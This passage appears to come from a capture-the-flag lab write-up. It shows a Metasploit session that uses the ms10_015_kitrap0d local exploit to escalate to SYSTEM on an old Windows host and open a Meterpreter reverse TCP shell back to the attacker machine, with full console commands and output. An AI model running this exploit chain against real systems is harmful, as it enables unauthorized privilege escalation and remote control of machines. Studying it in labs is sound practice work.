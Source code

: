 We escalate to system privileges usin the ms10_015_kitrap0d exploit:

```
msf6 exploit(windows/local/bypassuac_eventvwr) > use windows/local/ms10_015_kitrap0d
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.205    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf6 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
lhost => tun0
msf6 exploit(windows/local/ms10_015_kitrap0d) > set lport 5555
lport => 5555
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.27:5555 
[*] Launching notepad to host the exploit...
[+] Process 1996 launched.
[*] Reflectively injecting the exploit DLL into 1996...
[*] Injecting exploit into 1996 ...
[*] Exploit injected. Injecting payload into 1996...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.27:5555 -> 10.10.10.5:49170) at 2021-01-06 23:14:17 +0100

meterpreter > 
```

